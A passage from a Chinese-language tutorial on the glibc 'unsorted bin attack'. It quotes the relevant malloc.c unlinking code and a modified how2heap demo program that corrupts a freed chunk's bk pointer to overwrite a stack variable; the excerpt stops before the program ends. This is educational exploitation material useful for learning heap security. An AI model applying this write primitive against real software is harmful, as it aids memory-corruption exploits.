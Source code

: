 在  [glibc](https://code.woboq.org/userspace/glibc/)/[malloc](https://code.woboq.org/userspace/glibc/malloc/)/[malloc.c](https://code.woboq.org/userspace/glibc/malloc/malloc.c.html) 中的 `_int_malloc ` 有這麼一段代碼，當將一個 unsorted bin取出的時候，會將 `bck->fd` 的位置寫入本 Unsorted Bin 的位置。

```C
          /* remove from unsorted list */
          if (__glibc_unlikely (bck->fd != victim))
            malloc_printerr ("malloc(): corrupted unsorted chunks 3");
          unsorted_chunks (av)->bk = bck;
          bck->fd = unsorted_chunks (av);
```

換而言之，如果我們控制了 bk 的值，我們就能將 `unsorted_chunks (av)` 寫到任意地址。



這裏我以 shellphish 的 how2heap 倉庫中的 [unsorted_bin_attack.c](https://github.com/shellphish/how2heap/blob/master/unsorted_bin_attack.c) 爲例進行介紹，這裏我做一些簡單的修改，如下

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
  fprintf(stderr, "This file demonstrates unsorted bin attack by write a large "
                  "unsigned long value into stack\n");
  fprintf(
      stderr,
      "In practice, unsorted bin attack is generally prepared for further "
      "attacks, such as rewriting the "
      "global variable global_max_fast in libc for further fastbin attack\n\n");

  unsigned long target_var = 0;
  fprintf(stderr,
          "Let's first look at the target we want to rewrite on stack:\n");
  fprintf(stderr, "%p: %ld\n\n", &target_var, target_var);

  unsigned long *p = malloc(400);
  fprintf(stderr, "Now, we allocate first normal chunk on the heap at: %p\n",
          p);
  fprintf(stderr, "And allocate another normal chunk in order to avoid "
                  "consolidating the top chunk with"
                  "the first one during the free()\n\n");
  malloc(500);

  free(p);
  fprintf(stderr, "We free the first chunk now and it will be inserted in the "
                  "unsorted bin with its bk pointer "
                  "point to %p\n",
          (void *)p[1]);

  /*------------VULNERABILITY-----------*/

  p[1] = (unsigned long)(&target_var - 2);
  fprintf(stderr, "Now emulating a vulnerability that can overwrite the "
                  "victim->bk pointer\n");
  fprintf(stderr, "And we write it with the target address-16 (in 32-bits "
                  "machine, it should be target address-8):%p\n\n",
          (void *)p[1]);

  //------------------------------------

  malloc(400);
  fprintf(stderr, "Let's malloc again to get the chunk we just free. During "
                  "this time, target should has already been "
                  "rewrite:\n");
  fprintf(stderr, "%p: %p\n", &target_var, (void *)target_var);
```
